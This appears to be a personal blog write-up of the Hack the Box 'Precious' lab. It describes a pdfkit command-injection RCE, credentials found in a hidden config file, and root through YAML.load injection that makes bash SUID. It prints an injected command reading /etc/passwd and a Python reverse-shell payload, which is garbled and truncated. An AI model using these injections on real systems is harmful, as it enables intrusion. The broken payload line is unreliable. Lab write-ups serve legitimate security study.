 ```yaml
---
layout: single
title: Hack the Box - Precious
---
```


One of the boxes that I hacked this semester was Precious at Hack the Box. In this box I have managed to achieve the
root access and used tools that I haven't had the chance to try out before.

## Exploiting suid and YAML.Load()

As usual,  I scanned the box with nmap and noticed that it had open HTTP and SSH ports. The website greeted the user
with a tool that converts websites to PDF. I tried inputting the google.com url but it didn't work, so I though it might
be a security measure from Hack the Box creators. Therefore, I have started apache2 server on my localhost on Kali and
specified my URL.

| ![Main page](../../assets/img/precious/google.png) |
| Main page |

The trick worked, and the website generated a pdf of my localhost web page.

| ![Generated pdf](../../assets/img/precious/converted.png) |
| Generated pdf |

After downloading the PDF I decided to examine it with binwalk to see if there are no hidden files/messages inside and
with exiftool to see the metadata of the pdf. With that I learned that it was created using pdfkit.

| ![Pdf analysis](../../assets/img/precious/pdf.png) |
| Pdf analysis |

I googled the version and found that it is [vulnerable to an RCE exploit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795),
in which one can provide payload after URL encoded character in a GET parameter like so:

```js
PDFKit.new("http://example.com/?name=#{'%20`cat /etc/passwd`'}").to_pdf
```

So I have prepared the payload from
[payloadallthethings github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
which would start a reverse shell using python.

```bash
http://10.10.10.159/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_IN.spawn("sh")'`
```

| ![Reverse shell](../../assets/img/precious/shell.png) |
| Reverse shell |

And soon I got the connection to a netcat listener on my Kali machine. I looked around and noticed that user henry has a hidden
folder called `.bundle` in their home directory. The `.config` file contained a password that I have used to log in to the box
through ssh.

| ![Henry](../../assets/img/precious/henry.png) |
| Henry |

| ![Linpeas](../../assets/img/precious/linpeas.png) |
| Linpeas |

Then, with the user access I ran the `linpeas.sh` script and discovered that there are two suid commands: ruby and command
to update its dependencies. When reading through the `update_dependencies.rb` file I saw that it opens a `dependencies.yml`
allowing us to control the code that is going to be loaded through `YAML.load(...)`. After some searching I found that
the function is vulnerable to code injection. I found a payload that allowed executing shell commands, so I decided to use
the advantage that it is going to be executed as root and change bash permissions to suid. This worked after few tries,
because I missed the `-p` switch in executing bash after exploitation.

| ![Exploit](../../assets/img/precious/exploit.png) |
| Explloit |
